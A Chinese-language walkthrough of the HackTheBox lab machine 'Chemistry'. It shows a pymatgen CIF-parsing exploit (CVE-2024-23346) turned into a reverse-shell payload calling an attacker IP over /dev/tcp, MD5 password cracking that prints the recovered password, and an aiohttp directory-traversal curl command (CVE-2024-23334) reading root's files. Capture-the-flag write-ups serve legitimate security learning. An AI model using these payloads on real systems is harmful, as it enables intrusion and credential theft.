









## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap Chemistry.htb -sS -Pn -T4 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 20:11 CST
Nmap scan report for Chemistry.htb (10.10.11.38)
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 1.78 seconds
```

开放端口：`22`、`5000`

进入`http://chemistry.htb:5000/`



可以进行CIF晶体学信息文件(`Crystallographic Information File`)文件上传

给出的示例文件内容是这样的

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_b    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

## CVE-2024-23346

经过`Google`搜寻这个`CIF`文件相关的`CVE`，我找到了这个👇

- [Critical Security Flaw in Pymatgen Library (CVE-2024-23346) - vsociety (vicarius.io)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)

- [Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation\_string · Advisory · materialsproject/pymatgen (github.com)](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

在Github里给出的Poc原型是这样的

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

有效载荷就是下面的`_space_group_magn`那一段，因此仿照这个`Poc`构造一个反弹`shell`（注意单引号的转义，因为最外面是有一层单引号包裹的）

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.xx.xx/100 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

设置监听，上传之后点击`View`查看，可以看到成功反弹到`Shell`



```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

在`instance`目录下发现一个数据库文件



可以开启一个httpserver的服务将其下载下来



我在`/home`目录下发现了另一个用户：`rosa`，并且`database.db`中也存在他的密码`hash`，因此可以使用`John The Ripper`进行爆破密码

```
[root@kali] /home/kali/Chemistry  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=Raw-MD5                                             ⏎
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorniosrosados (?)     
1g 0:00:00:00 DONE (2024-12-17 20:57) 1.265g/s 3774Kp/s 3774Kc/s 3774KC/s uniden206..unicornios2805
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

得到用户密码

```
username：rosa
password：unicorniosrosados
```

`SSH`直接登录获取到`User.txt`



## ReadAnyFiles

上传linpeas，发现存在开放的内网端口

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                               
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      7928/bash                                                                   
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      - 
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```

将`8080`端口代理出来，我这里是代理到了本地的`8000`端口，因为`8080`端口是`Bursuite`的默认使用端口



```
Server：Python/3.9 aiohttp/3.9.1
```

这是一个利用的点，搜索`aiohttp`的相关版本漏洞

- [CVE-2024-23334: A Deep Dive into aiohttp's Directory Traversal Vulnerability (ethicalhacking.uk)](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0)

找到一个目录穿越的漏洞，不过这里有一个坑，因为所有的`poc`都是基于`/static`目录进行穿越的，而这里的内网端口上没有这个目录



存在`/assets`目录，我们可以基于这个目录来进行目录穿越

根据上面文章里的测试一下，读取成功



这里我本来想读取密码`Hash`然后爆破一下`root`的密码的，但是好像爆不出来😂，直接读取`flag`吧

```
[root@kali] /home/kali/Chemistry  
❯ curl -s --path-as-is "http://127.0.0.1:8000/assets/../../../../../root/root.txt"    
```



## Summary

`User`：就是简单的文件上传`CVE`反弹`Shell`，然后数据库信息泄露，爆破用户密码进行`ssh`登录。

`Root`：`Webserver`的版本漏洞，可以造成任意文件读取，不过有前提是必须要踏板目录存在，比如说这个`Machine`中不存在其他`Poc`中的`/static`，所以需要借助`/assets`目录来进行穿越。假如没有任何可访问目录的话，应该也就无法复现这个`CVE`了。也可以直接通过读取**ssh**密钥后进行**root**登录。
